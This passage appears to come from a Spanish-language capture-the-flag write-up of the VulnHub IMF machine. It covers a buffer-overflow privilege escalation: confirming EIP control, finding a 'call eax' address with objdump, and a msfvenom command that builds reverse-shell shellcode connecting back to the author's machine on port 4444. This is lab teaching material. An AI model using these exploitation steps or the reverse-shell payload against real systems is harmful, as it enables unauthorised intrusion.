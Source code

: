 ![](/assets/images/VulnHub/IMF/eip.png)

Ahora eip vale 0x42424242 o BBBB

### Dirección de memoria (call eax)

Teniendo en cuenta que `FF D0` es el operation code de `call eax` podemos buscar una dirección de memoria con `objdump`

![](/assets/images/VulnHub/IMF/objdump.png)

### Creando shellcode con msfvenom

Ahora lo que necesitamos es un shell code que nos envie un reverse shell a nuestro equipo, yo me voy a poner a la escucha por el puerto 4444.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.131 LPORT=4444 -f python -b "\x00\x0a\x0d"
```

Ya tenemos todo para escalar privilegios, ahora solo hay que hacer un pequeño script en python3 que nos ejecute el buffer overflow:
